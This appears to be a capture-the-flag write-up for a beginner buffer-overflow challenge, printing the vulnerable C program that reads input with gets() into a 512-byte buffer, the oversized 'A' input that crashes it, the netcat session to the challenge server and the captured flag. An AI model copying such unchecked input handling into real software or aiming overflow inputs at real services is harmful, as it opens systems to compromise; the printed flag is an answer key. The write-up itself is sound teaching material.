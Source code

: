 ![](images/5-header.png)

# Butter Overflow
### easy | warmups | 50 points  
<br/>

## Challenge Information
Can you overflow this right?
<br/><br />

## Solution
This is a very simple buffer overflow challenge. There are three files:
- a makefile
- the source code 
- the resulting executable file

We were also given an server that we could connect to using nc.

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <signal.h>
#include <sys/stat.h>

void give_flag();

void handler(int sig) {
    if (sig == SIGSEGV)
        give_flag();
}

void give_flag() {
    char *flag = NULL;
    FILE *fp = NULL;
    struct stat sbuf;

    if ((fp = fopen("flag.txt", "r")) == NULL) {
        puts("Could not open flag file.");
        exit(EXIT_FAILURE);
    }

    fstat(fileno(fp), &sbuf);

    flag = malloc(sbuf.st_size + 1);
    if (flag == NULL) {
        puts("Failed to allocate memory for the flag.");
        exit(EXIT_FAILURE);
    }

    fread(flag, sizeof(char), sbuf.st_size, fp);
    flag[sbuf.st_size] = '\0';

    puts(flag);

    fclose(fp);
    free(flag);

    exit(EXIT_SUCCESS);
}

int main() {
    char buffer[0x200];

    setbuf(stdout, NULL);
    setbuf(stdin, NULL);

    signal(SIGSEGV, handler);

    puts("How many bytes does it take to overflow this buffer?");
    gets(buffer);

    return 0;
}
```

The source code shows the buffer is 512 chars long (I initially didn't see the 0x before the 200 and thought it was 200 chars long), and the flag is printed when a segmentation fault takes place, denoted by the `handler()` function.

As I initially saw the buffer as 200 chars, I tried sending inputs with more than 200 chars, and that clearly did not work.

After sometime, I sent an input with a very high character length after looking up some resources. It caused a segmentation fault!

```shell
piyagehi@Piyas-MacBook-Pro:~$ python -c 'print "A"*1200' > file
piyagehi@Piyas-MacBook-Pro:~$ chmod +x butter_overflow
piyagehi@Piyas-MacBook-Pro:~$ cat file | ./butter_overflow
How many bytes does it take to overflow this buffer?
Could not open flag file.
```

The flag file did not open as there is no flag file on my machine. Since the input worked, I sent the same input to the server for this challenge, and received the flag!

```shell
piyagehi@Piyas-MacBook-Pro:~$ cat file | nc challenge.ctf. games 30054
How many bytes does it take to overflow this buffer?
flag{72d8784a5da3a8f56d2106c12dbab989}
```

Flag: `flag{72d8784a5da3a8f56d2106c12dbab989}`